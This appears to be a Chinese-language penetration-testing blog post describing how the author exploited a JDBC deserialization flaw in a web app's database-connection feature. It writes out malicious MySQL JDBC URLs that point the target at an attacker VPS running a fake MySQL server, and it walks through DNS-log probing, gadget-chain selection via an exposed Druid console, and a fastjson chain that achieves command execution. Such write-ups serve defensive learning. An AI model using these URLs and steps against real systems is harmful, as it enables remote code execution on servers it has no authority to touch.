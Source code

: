 #  一次JDBC反序列化漏洞   
 进击的HACK   2025-02-12 11:13  
  
在一次测试中遇到了数据库连接功能，这种功能点一般会存在jdbc反序列化漏洞。  
  
特征点：  
  
这种数据库连接点一般会存在jdbc反序列化漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRImMNCIOvuN6toPOus15qZcKgicIdPB82jSCtDkJf9nBM9zS51xnkLLWA/640?wx_fmt=png&from=appmsg "")  
  
  
打法：  
  
先试试打h2不出网利用链。该利用链需要对方服务器导入了h2依赖包才能打。执行ping dnslog命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRICkoTDFUUg0wzvgGicLQEh7xXWs2qwD4cAicIGeKYxbAvza6REwyQGQFw/640?wx_fmt=png&from=appmsg "")  
  
然后测试连接，发送请求，看起来并没有收到dnslog请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI2kvjykt1snpHe4ahPv74x72sZaFk6e3C0PSRibBUyGiaichjBFZta6Ggw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcdj2u45M3M5rLbecDhVS3aBnhzCCD7h9lpG8JUE6TJiaphAPlyFQnPw/640?wx_fmt=png&from=appmsg "")  
  
  
那就换着打常规的出网利用链。需要用到这个工具。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIpfxaePTbtSs7Gl6CenZJSztwIH0OeAgJUzuE8hMeCGs9Ficp4hrMwvg/640?wx_fmt=png&from=appmsg "")  
  
下载地址：https://github.com/4ra1n/mysql-fake-server/  
  
打个dnslog链，探测是否存在反序列化漏洞。  
  
  
先在自己的vps起一个服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRItiaQ7xgZJ4Pjs127z0Z3bl3JVxVl059mcBQ6pRhoqGra97sCErb6wsw/640?wx_fmt=png&from=appmsg "")  
  
在url处写入(目标服务器JDBC Version6.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
（目标服务器JDBC Version8.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
  
用户名处写入要打的urldns地址，密码可以随便写  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI5vRpYsFqyIzViahbGMkxzApabUHf8mZdtXFEUZiaOkZqeu9HMjsZ2yUQ/640?wx_fmt=png&from=appmsg "")  
  
VPS成功收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIybrzZYWfxZl5oJtXnHLOzF4hgRO8gqt6wSt2oiaN651eLia6lQ8Ze1KA/640?wx_fmt=png&from=appmsg "")  
  
dnslog收到回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI8Yv1Uc94icicNltU9E8OLuua2GTejf6lIw8mVLEzLpJLLu6YaJA13xpA/640?wx_fmt=png&from=appmsg "")  
  
接下来可以试试打可以执行命令的链，例如cc链，cb链等。  
  
但是试了几个下来都没有成功执行命令，就是说目标服务器可能没有导入对应的依赖。（过程省略）  
  
  
刚好bp插件帮我扫到了druid未授权漏洞，可以通过druid未授权看看服务器里的组件有什么，就可以判断打什么链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIWNQtd992s7gMHGZq1bA9YgBd7khPMCftFBOklib04Pj1axNUU6jgw6g/640?wx_fmt=png&from=appmsg "")  
  
  
服务器导入的是commons-collections-3.2.2.jar版本，相较于之前的版本增加了一个安全检查，所以没办法直接打cc链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIOWubux9cVJrTJiaDKzV5wsG7zCAyJMBBlXUMibBBpEEJDvPb4KsbxARg/640?wx_fmt=png&from=appmsg "")  
  
目标服务器还有c3p0，但是这个链不太好打jdbc反序列化，需要的前置条件比较多。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIUa21oTY519LXLk3y2c4zpPibibcrxKDuJKgD0KA43B2Oh1AOj9lZUWgg/640?wx_fmt=png&from=appmsg "")  
  
又发现了目标服务器使用了fastjson，看来可以直接打fastjson链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIz03uUSIdsffJjcxednO7zHzp3cacZliadTsbng47p2yViaI4qqjQdD4g/640?wx_fmt=png&from=appmsg "")  
  
  
使用工具生成fastjson链，执行ping命令  
  
https://github.com/Lotus6/ysoserial  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIiaicQd4x9MZW5vO4BSMeMjOYDrbxF8SHrBEIExMgdD6ficmFaT8yWIxibA/640?wx_fmt=png&from=appmsg "")  
  
  
将base64编码的payload在vps上，这里我放到了test文件里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIV1MW1kTtPsicTp04W180ysZrB7jqUxrZYYUnYicczcFWcdw1npRL7fvQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过命令再次启动服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIwJjpB4GgSSY1PlW7WsiaqFxNEicjQaIqcgYMrSq8twAKFoWZ4tE0qleQ/640?wx_fmt=png&from=appmsg "")  
  
再次创建数据库连接，将用户名处改为deser_CUSTOM  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIYrcyLufCxDZXX5cdicj8qDzJKREz8RK0DVsPYj3HUeco0Q9NFwbafHg/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行ping命令，拿下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcwrGsmEwrQzyDLKwnF1VgIpNweljLvPRkic9XRiaDd4wPdr8hvV7Q2MA/640?wx_fmt=png&from=appmsg "")  
  
  
补充：  
  
如果目标没有druid未授权，那么怎么知道目标服务器有什么链可以打呢？  
  
可以通过urldns链判断目标有什么利用链，如果存在某个指定的类，就进行dnslog请求，从而判断服务器有什么链，具体原理这里不细讲，有兴趣的可以看这个文章了解。  
  
https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA  
  
我们可以用珂师傅的工具  
  
https://github.com/kezibei/Urldns  
  
通过该工具生成base64编码的payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIXZblBKUWUAoTk6s3aojk6icHDeJibAzYTF6IEyffafwybTic9WWsEYUYQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIw1twj4hgTO7lho4iaQvYU7OZ9s2oHJ7mrCb9o9zMx3UqpCLia9j42cKA/640?wx_fmt=png&from=appmsg "")  
  
和刚才的步骤相同，放到vps上面，过程省略。成功把目标服务器信息回显出来。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIsFaEDIAqtEaibPCfv6ZicibHq0PpGTic6QQuduibAF7fuUz9lwa6FE5mPBw/640?wx_fmt=png&from=appmsg "")  
  
  
